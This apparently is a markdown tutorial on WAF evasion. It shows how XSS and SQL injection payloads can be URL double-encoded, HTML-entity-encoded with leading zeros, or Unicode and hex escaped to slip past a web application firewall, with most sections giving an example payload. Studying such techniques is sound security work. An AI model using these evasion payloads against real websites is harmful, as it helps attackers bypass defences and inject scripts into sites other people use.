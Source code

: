 ## URL encoding

In an URL, special chars (and letters) like # or & is encoded into %AA where AA are two digits. For instance 
SELECT -> `%53%45%4C%45%43%54`. 

If we were to lunch an SQL attack or an XSS, but the website has WAF up (Web Application Firewall), it will identify the payload.  For example:

We want to inject:
			`<img src=x onerror=alert(1)>`

The URL will look like:
	`[...]/?search=%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3`

WAF will block it. But, if we were to double encode, hence changing the % for %25 (its respective encoded value) getting the new URL:
	`[...]/ search=%253Cimg%2520src%253Dx%2520onerror%253Dalert(1)%253E`
	
Now, unless the website/WAF is also checking for double-encoding, the payload should go through as expected.

## HTML Encoding

Just like it worked with URL, HTML also encodes characters with a specific syntax. We can change letters in the payload with its respective HTML encoded value:

`<img src=x onerror="&#x61;lert(1)">`

### Leading Zeros

If our HTML-encoded payload still gets blocked, we can add zeroes to the encoded value. Some WAFs fail to deal with it:
`<a href="javascript&#00000000000058;alert(1)">Click me</a>`

## Unicode Encoding

Using the prefix `\u` followed by 4-digits is another way to encode chars. For instance:
		`eval("\u0061lert(1)")` 

### Hex Escaping

`\x` to encode with hexadecimal values:

`eval("\x61lert")` or `SELECT -> 0x53454c454354` 


